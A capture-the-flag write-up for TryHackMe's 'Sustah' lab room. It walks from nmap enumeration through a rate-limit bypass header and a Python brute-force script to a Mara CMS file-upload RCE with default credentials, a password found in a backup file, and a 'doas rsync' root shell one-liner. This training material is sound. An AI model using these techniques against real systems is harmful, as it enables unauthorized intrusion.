


# [Sustah](https://tryhackme.com/room/sustah) TryHackMe Wirteup


## __First Stage : Enumeration__


So as usual let's fire up nmap.


```
# Nmap 7.91 scan initiated Sat Jan 30 13:48:26 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.95.49
Warning: 10.10.95.49 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.95.49
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-01-30 13:48:27 IST for 877s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
|   256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
80/tcp   open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
1472/tcp filtered csdm    no-response
8085/tcp open     http    syn-ack     Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 30 14:03:04 2021 -- 1 IP address (1 host up) scanned in 878.90 seconds
```

So the ports that which are open :

* 22
* 80
* 1472
* 8085

Let's visit port 80.


I ran gobuster and nikto got nothing interesting.


Hence I visited 8085 .


So we have to guess the number in order to get the path.

I used burp to intercept the request.

And I tried bruteforcing the numbers but after sometime there was a limit which was stopping from bruteforcing.


Hence I searced "bypassing rate limits" and found this blog in [HackTricks](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass) and tried this header **X-Remote-Addr: 127.0.0.1** and it worked.

So I sent it to intruder and set the payload from **10000** to **99999** step 1.


After sometime I understood that it is taking long to complete , hence I created a python script to do this fast.


``` python
import requests
import sys
import re
url = "http://10.10.95.49:8085/"

sess = requests.session()
for number in range(10000,99999):
   header_data= {"X-Remote-Addr" : "127.0.0.1"}
   data = {"number" : number}
   output = sess.post(url, headers = header_data, data = data)
   if "rate limit exceeded" in output.text:
        print("limit exceeded")
   elif "Oh no! How unlucky. Spin the wheel and try again." in output.text:
        pass
   else:
        print(f"[+]The number is {number}")
        sys.exit(0)

```
Hence I ran the script and got the number.


After we enter the number we got it gives us the directory.

> Note : the cms is in port 80


## __Second Stage : Initial access as www-data__
Hence we visit it


So the name of cms is **MARA**

Hence I search for exploits using searchsploit and found this.


So there is an  authenticated RCE , but we don't know the password. I tried the password given in exploit and it worked.





As given in the exploit we go to **http://target/codebase/dir.php?type=filenew**


And upload our shell.php.


We get this message.


Hence we start a listener.

Go to 

>http://target/img/shell.php


We get a shell.


## __Fourth Stage : www-data to kiran__


I ran linpeas and got some hashes in **/var/www/html/sitecfg**


But they were a dead end, hence I saw the hint . So I went for /var/backups directory.


I found the password in **.bak.passwd**


Now we get shell as __kiran__


## __Fifth Stage : kiran to root__


As soon as I ran linpeas this got my eyes.





So I searched for rsync in [GTFOBINS](https://gtfobins.github.io/gtfobins/rsync/) . In order to get root .


> doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

And got root.


